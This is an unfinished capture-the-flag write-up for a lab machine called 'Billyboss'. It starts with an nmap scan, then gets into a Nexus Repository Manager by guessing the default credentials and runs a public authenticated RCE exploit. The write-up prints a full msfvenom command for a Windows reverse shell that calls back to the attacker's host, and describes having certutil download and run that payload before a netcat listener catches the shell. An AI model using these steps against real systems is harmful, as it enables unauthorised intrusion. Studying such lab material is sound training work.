 # Billyboss (WIP)

## Nmap

```
sudo nmap 192.168.64.61 -p- -sS -sV                

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     Microsoft ftpd
80/tcp   open  http    Microsoft IIS httpd 10.0
8081/tcp open  http    Jetty 9.4.18.v20190429
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

On port 8081 we have Sonar Nexus Repository manager running on version 3.21.0.05.

![http://192.168.64.61:8081/](<../../.gitbook/assets/image (854).png>)

Guessing the sign in credentials of nexus:nexus gives access to Nexus. Searching for exploits shows an authenticated RCE on exploit-db.com

{% embed url="https://www.exploit-db.com/exploits/49385" %}

First I created a reverse shell with msfvenom to connect on port 21. `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.64 LPORT=21 -f exe > /home/kali/windows/shell.exe`

Then set a Python SimpleHTTPServer on my attacking machine to host the shell. After doing so I edited the exploit code to include the credentials we have and to execute cmd.exe and certutil.exe to download the reverse shell from my attacking machine.

![](<../../.gitbook/assets/image (855).png>)

After doing this and confirming from my attacking machine that the shell was downloaded I then edited the exploit code to call cmd.exe again and execute the shell.

![](<../../.gitbook/assets/image (856).png>)

In which we receive. a shell back on our `netcat` listener.

![](<../../.gitbook/assets/image (858).png>)

